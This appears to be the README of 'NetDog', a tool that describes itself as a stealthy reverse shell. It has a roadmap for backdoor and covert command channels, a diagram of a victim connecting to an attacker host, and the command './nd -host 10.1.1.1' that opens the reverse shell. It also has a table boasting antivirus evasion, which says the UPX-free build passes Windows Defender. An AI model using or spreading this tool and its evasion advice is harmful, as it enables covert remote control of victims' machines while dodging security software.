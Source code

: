 # NetDog
Mini Stealthy Reverse Shell

## Roadmap
- Reverse Shell
    - [ ] UDP
    - [ ] ICMP
    - [ ] Multi-sessions
    - [x] Auto reconnect
- Others
    - [ ] IPv6
    - [ ] HTTP/S
        - netdog listen for commands from http server
        - netdog executes and output to http server until OK is received
        - netdog also compress the output
        - E2EE communication
    - [ ] SSH backdoor server

## Choosing binary
- Always choose the one without upx
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)

## Reverse shell
```
+------------+            +------------+
|            |            |            |
|   victim   +------------>  attacker  |
|  (netdog)  |            |  10.1.1.1  |
|            |            |            |
+------------+            +------------+
```
```bash
./nd -host 10.1.1.1 # connect to attacker port 1234
```

## AV status
| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|